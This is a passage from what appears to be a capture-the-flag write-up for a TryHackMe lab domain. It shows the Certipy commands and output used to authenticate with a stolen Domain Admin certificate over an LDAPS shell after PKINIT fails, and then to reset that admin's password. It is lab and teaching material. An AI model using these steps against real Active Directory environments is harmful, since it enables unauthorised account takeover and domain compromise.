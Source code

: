 However trying to authenticate against the domain controller using the certificate a "KDC_ERR_PADATA_TYPE_NOSUPP" error which means

> PKINIT (Public Key Cryptography for Initial Authentication in Kerberos) is not supported/enabled on the Domain Controller (DC), most likely because:

- There’s no certificate installed on the DC from ADCS (Active Directory Certificate Services), or

- The DC is not configured to accept smartcard/certificate-based logons.


```
❯ certipy-ad auth -pfx bradley_ortiz_labyrinth.pfx -dc-ip 10.10.197.194 -username BRADLEY_ORTIZ -domain thm.local

Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'BRADLEY_ORTIZ@thm.local'
    [1] DNS Host Name: 'labyrinth.thm.local'
> 0
[*] Using principal: bradley_ortiz@thm.local
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

Was able to bypass the certificate auth limitation by falling back to LDAPS(authentication through TLS) as stated in this [github issue](https://github.com/ly4k/Certipy/issues/205) then changed the password for the user `BRADLEY_ORTIZ` since they belong to the DA group also.



```bash
❯ certipy-ad auth -ldap-shell -pfx bradley_ortiz_labyrinth.pfx -dc-ip 10.10.197.194 -username BRADLEY_ORTIZ -domain thm.local
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Connecting to 'ldaps://10.10.197.194:636'
[*] Authenticated to '10.10.197.194' as: u:THM\BRADLEY_ORTIZ
Type help for list of commands

# help

 --SNIP--
 change_password user [password] - Attempt to change a given user's password. Requires LDAPS.
 clear_rbcd target - Clear the resource based constrained delegation configuration information.
 disable_account user - Disable the user's account.
 enable_account user - Enable the user's account.
 dump - Dumps the domain.
 --SNIP

# change_password BRADLEY_ORTIZ Password123
Got User DN: CN=BRADLEY_ORTIZ,OU=FSR,OU=Tier 1,DC=thm,DC=local
Attempting to set new password of: Password123
Password changed successfully!
```
